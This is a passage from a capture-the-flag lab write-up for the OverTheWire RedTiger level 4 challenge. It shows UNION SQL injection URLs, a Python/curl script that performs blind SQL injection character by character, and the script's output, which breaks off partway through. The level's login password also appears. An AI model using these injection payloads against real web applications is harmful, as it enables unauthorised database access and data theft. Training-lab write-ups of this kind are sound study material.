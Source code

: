 <img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502162757617.png" alt="image-20200502162757617" style="border:1px solid black;" />

<center> ?id=0%20UNION%20SELECT%20keyword%20FROM%20level4_secret



I tried adding another column to the selection by sending `0 UNION SELECT keyword,2 FROM level4_secret`:

```sql
SELECT ?,?,... 
FROM table_name 
WHERE id = 0 
UNION 
SELECT keyword,2 
FROM level4_secret;
```

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502163019115.png" alt="image-20200502163019115" style="border:1px solid black;" />

<center>?id=0%20UNION%20SELECT%20keyword,2%20FROM%20level4_secret



Seems like the table has 2 columns. Since we do not have access to the values in the table (but only to the number of rows selected), I decided to perform a blind SQL injection. I used he `LEFT` function to figure the first character. To go over all possible characters, I wrote a short Python script on Jupyter:

```python
import string

# Get the cookie for level 4
foo = ! curl --silent --cookie-jar level4login --cookie level4login --request POST --data "password=put_the_kitten_on_your_head&level4login=Login" https://redtiger.labs.overthewire.org/level4.php

chars = list(string.ascii_lowercase + string.digits) # possible characters

for char in chars:
    print("response for %s:" %char, end = "")
    ! curl --silent --cookie level4login "https://redtiger.labs.overthewire.org/level4.php?id=0%20UNION%20SELECT%20keyword,id%20FROM%20level4_secret%20WHERE%20LEFT(keyword,1)%20=%20%27{char}%27" | findstr "Query returned"
```

Output:

```
response for a:	Query returned 0 rows. <br /><br />
response for b:	Query returned 0 rows. <br /><br />
response for c:	Query returned 0 rows. <br /><br />
response for d:	Query returned 0 rows. <br /><br />
response for e:	Query returned 0 rows. <br /><br />
response for f:	Query returned 0 rows. <br /><br />
response for g:	Query returned 0 rows. <br /><br />
response for h:	Query returned 0 rows. <br /><br />
response for i:	Query returned 0 rows. <br /><br />
response for j:	Query returned 0 rows. <br /><br />
response for k:	Query returned 1 rows. <br /><br />
response for l:	Query returned 0 rows. <br /><br />
response for m:	Query returned 0 rows. <br /><br />
response for n:	Query returned 0 rows. <br /><br />
response for o:	Query returned 0 rows. <br /><br />
response for p:	Query returned 0 rows. <br /><br />
response for q:	Query returned 0 rows. <br /><br />
response for r:	Query returned 0 rows. <br /><br />
response for s:	Query returned 0 rows. <br /><br />
response for t:	Query returned 0 rows. <br /><br />
response for u:	Query returned 0 rows. <br /><br />
```